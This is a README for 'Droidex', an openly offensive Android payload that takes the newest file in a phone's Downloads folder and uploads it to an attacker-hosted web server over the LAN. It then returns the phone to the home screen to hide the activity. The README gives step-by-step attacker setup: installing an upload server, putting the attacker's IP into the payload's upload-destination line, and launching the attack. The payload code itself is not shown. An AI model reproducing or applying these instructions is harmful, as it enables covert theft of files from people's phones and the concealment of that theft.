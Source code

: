 REM TITLE: Droidex

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Android (tested on Samsung S24 FE | Android 15 | One UI 7.0)

Droidex is a data exfiltration payload that grabs the top file listed in the phones' downloads directory and exfiltrates it to a self-hosted webserver over LAN. Both the attacker machine and target device must be connected to the same LAN. The payload will use Google Search to navigate to the self-hosted webserver and upload the file. After exfiltration, the browser will navigate to `google.com` and the device will return to the home screen to obfuscate activity.

**REQUIRED DEPENDENCIES**

Python module [uploadserver](https://pypi.org/project/uploadserver/)

 1. Install `uploadserver` on attack machine (`python3 -m pip install --user uploadserver`).
 2. Enter `ifconfig` in terminal of attack machine (Linux) to find machine IP address.
 3. Place the IP address found via `ifconfig` into line 6 (`DEFINE #IPA x.x.x.x:8000/upload`) of payload.txt.
 4. Start the webserver (`python3 -m uploadserver`).
 5. Perform attack.
 6. The file will be saved to the current working directory on the attacker machine where the server is being hosted from.

![Diagram](https://github.com/user-attachments/assets/08dddce3-65ee-4711-ac3b-682a1358e325)
